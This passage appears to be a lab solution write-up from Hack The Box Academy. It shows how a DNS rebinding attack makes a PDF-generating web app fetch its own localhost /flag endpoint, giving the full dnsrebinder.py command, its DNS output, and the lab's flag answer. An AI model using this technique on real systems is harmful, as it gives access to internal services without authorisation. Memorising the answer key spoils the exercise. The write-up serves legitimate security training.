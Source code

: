 With the rogue DNS server running, students need to visit `pdf.inlanefreight.local:8003` and "search" for a URL that uses the domain name supplied to `dnsrebinder.py`, followed by the application's port number 8003 and the `/flag` path:

![[HTB Solutions/CWEE/z. images/ed714f5155872f8ad127842dd4499cce_MD5.jpg]]

Because the web application resolves the domain twice, the first DNS `A` record will map `google.com` to `1.1.1.1`, while the second maps it to `127.0.0.1`; students can view the output of `dnsrebinder.py` to view the `A` records the fake DNS server replies with:

```shell
(DNSrebinder) ┌─[eu-academy-1]─[10.10.15.119]─[htb-ac-413848@htb-uecxkmkmay]─[~/DNSrebinder]
└──╼ [★]$ sudo python3 dnsrebinder.py --domain google.com --ip 1.1.1.1 --rebind 127.0.0.1 --counter 1 --tcp --udp

Starting nameserver...
UDP server loop running in thread: Thread-1
TCP server loop running in thread: Thread-2
Got a request for google.com. Type: A
------------------------ Counter for host  google.com.   1
---- Reply:
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 33058
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
;google.com.                    IN      A
;; ANSWER SECTION:
google.com.             0       IN      A       1.1.1.1
Got a request for google.com. Type: A
------------------------ Counter for host  google.com.   2
---- Reply:
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 27453
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
;google.com.                    IN      A
;; ANSWER SECTION:
google.com.             0       IN      A       127.0.0.1
```

Students will attain the flag `HTB{994c44577021f06eadcc1fe43c9ca49f}` in the generated PDF file of `http://127.0.0.1:8003/flag`:

![[HTB Solutions/CWEE/z. images/a455301ae65856220359e9eebe7e5527_MD5.jpg]]

Answer: `HTB{994c44577021f06eadcc1fe43c9ca49f}`